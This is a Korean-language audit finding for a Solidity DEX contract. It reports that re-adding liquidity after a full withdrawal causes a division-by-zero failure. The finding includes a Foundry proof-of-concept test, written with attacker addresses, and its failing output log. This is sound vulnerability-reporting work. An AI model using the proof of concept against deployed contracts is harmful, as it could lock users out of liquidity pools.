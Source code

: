 # 유동성 공급 분기 처리 미흡으로 인한 토큰 페어 0 나눗셈 오류
File: Dex.sol <br/>                                                        
Function: function addLiquidity(uint256 tokenXAmount, uint256 tokenYAmount, uint256 minimumLPTokenAmount) <br/>
Line Number: 36-47 <br/>
https://github.com/siwon-huh/DEX_solidity/blob/257b4d898b70453905cdf1bec7da7418011f941f/src/Dex.sol#L36-L47
<br/>
## Description
초기 유동성 공급이 성공적으로 수행되면 글로벌 상태 변수 first_lp가 거짓으로 설정되어 유동성 공급 분기를 나누는 종속 변수가 트리거됩니다. 그러나 유동성을 성공적으로 초기화한 후 유동성을 제거하여 기존 토큰 쌍 풀을 0으로 만든 다음 다시 유동성을 추가하면 초기 토큰 쌍의 잔액은 0으로 수렴합니다. 글로벌 상태 변수 first_lp가 거짓으로 할당되므로 함수는 초기 유동성 제공 로직 대신 유동성 유지 로직에 진입합니다. 이 경우 기존 준비 토큰 쌍의 잔액을 참조하여 0으로 나누기 때문에 0 나누기 오류가 발생합니다.


```solidity
function testLpTokenImbalance() external {
    tokenX.transfer(address(attacker), (~uint256(0))/2);
    tokenY.transfer(address(attacker), (~uint256(0))/2);

    vm.startPrank(attacker2);
    tokenX.approve(address(dex), ~uint256(0));
    tokenY.approve(address(dex), ~uint256(0));
    vm.stopPrank();

    vm.startPrank(attacker);
    tokenX.approve(address(dex), ~uint256(0));
    tokenY.approve(address(dex), ~uint256(0));
    vm.stopPrank();

    // token add liquidity
    for (uint i = 0; i < 271; i++) {
        vm.startPrank(attacker);
        uint256 lp = dex.addLiquidity(12345 ether, 12345 ether, 0);
        uint _tx_balance_re = tokenX.balanceOf(address(attacker));
        uint _ty_balance_re = tokenY.balanceOf(address(attacker));
        emit log_named_decimal_uint("tokenX_add_remove", _tx_balance_re, 18);
        emit log_named_decimal_uint("tokenY_add_remove", _ty_balance_re, 18);
        emit log_named_uint("LP", lp);
        emit log_named_uint("Count:", i);


        dex.removeLiquidity(lp, 0, 0);

        vm.stopPrank();
        // uint _tx_balance_re = tokenX.balanceOf(address(attacker));
        // uint _ty_balance_re = tokenY.balanceOf(address(attacker));
        // emit log_named_decimal_uint("tokenX_add_remove", _tx_balance_re, 18);
        // emit log_named_decimal_uint("tokenY_add_remove", _ty_balance_re, 18);
        vm.startPrank(attacker2);
        // tokenX.transfer(address(dex), 1 ether);
        // tokenY.transfer(address(dex), 1 ether);
        // tokenY.transfer(address(dex), 127 ether);
        vm.stopPrank();
    }
[FAIL. Reason: Division or modulo by 0] testLpTokenImbalance() (gas: 360354)
Logs:
  tokenX_add_remove: 57896044618658097711785492504343953926634992332820282008383.792003956564819967
  tokenY_add_remove: 57896044618658097711785492504343953926634992332820282008383.792003956564819967
  LP: 12345000000000
  Count:: 0
  [remove] tokenX_in_LP: 12345000000000000000000
  [remove] tokenY_in_LP: 12345000000000000000000
```